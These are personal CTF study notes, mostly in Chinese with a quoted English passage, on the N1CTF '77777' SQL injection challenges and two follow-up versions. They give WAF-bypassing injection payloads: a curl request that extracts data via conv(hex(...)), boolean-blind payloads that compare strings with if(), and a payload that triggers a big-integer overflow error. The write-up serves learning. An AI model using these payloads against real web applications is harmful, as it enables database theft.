

写在前面：个人学习笔记，对各路大佬”名言”的摘抄，方便自己以后查看,大佬们就请路过吧orz
77777.1
1 | function waf($points) |
1 | apt-get install php7.0 |
1 | $ curl -g "http://47.75.14.48/" -d "flag=hogefuga&hi=-(conv(hex((select substr(group_concat(c), 1, 4) from (select 1 a, 2 b, 3 c, 4 d union select * from users) x)), 16, 10))" 2>/dev/null | grep -1 Points |
After reading over the code it’s obvious that the $points variable is vulnerable to SQL Injection, however it is also running through a waf function which we don’t have the code for. After doing some research on different ways I could exploit it, I discovered a technique here about using CONV(hex((query))) to extract data, after struggling on trying to get it working for ages, I FINALLY got it working using this query
*CONV(HEX((SELECT MID(password,1,3))),16,10). For anyone who isn’t familiar with the functions in the statement I’ll break them down for you, MID allows you to obtain a substring of the field (I couldn’t use SUBSTRING because it was blocked by the waf :( ), the format isMID(field, <starting position>, <length>), after some more fiddling around I wrote a quick python script to automate it for me and do the decoding
77777.2
关键代码同上,更多的关键字被过滤，不过依然可以绕过
思路1：
1 | flag=0&hi=%2bconv(hex(substr((select pw ),1, 4)), 16, 10) |
pw左右各一个空格就绕过了，玄学。。
后台生成查询语句为UPDATE user SET points = 0+conv(hex(substr((select pw ),1, 4)), 16, 10) 应该是非预期，话说正解到底是啥？
思路2：
1 | hi=000 | IF (substr((select substr( pw from 1)),1,1)>'z',1,0) |
tips：pw from 1，它会返回pw字段从1开始的所有值
1 | # -*- coding:utf-8 -*- |
77777.3 LOVE Q
题目就是 n1ctf 中 77777 的续作，过滤了更多的东西，同时在 profile 中的 mypoints 也直接不回显了。
题目描述：

fuzz一波发现
1 | Select |
没被过滤。
接着考虑注入，因为不回显，只有盲注，时间盲注函数被过滤了，只剩 bool 盲注，于是就要找到一个用来判定注入结果是否正确的条件。
于是目光落在了 update 失败会导致页面返回 sorry 上。
又有 if，思路就出来了
思路1：
payload: flag=0&hi=|if((select pw)>'{0}', 2,'\"')
这里就是爆破对比字符串，如果爆破的字符大于 flag 中当前对比的字符，if 就返回 "，造成sql语句出错，回显 sorry。
1 | #coding:utf-8 |
Note:字符串大小比较的时候，会从左向右将两个字符串第一个不相等的两个字符的ascii码的比较结果作为最终结果
思路2：利用大整数溢出报错
1 | payload = "|if(substr(pw,{},9-2-2-2-2)>'{}',(select 999999999999999999999999999999 * 9e299),2)" |
参考：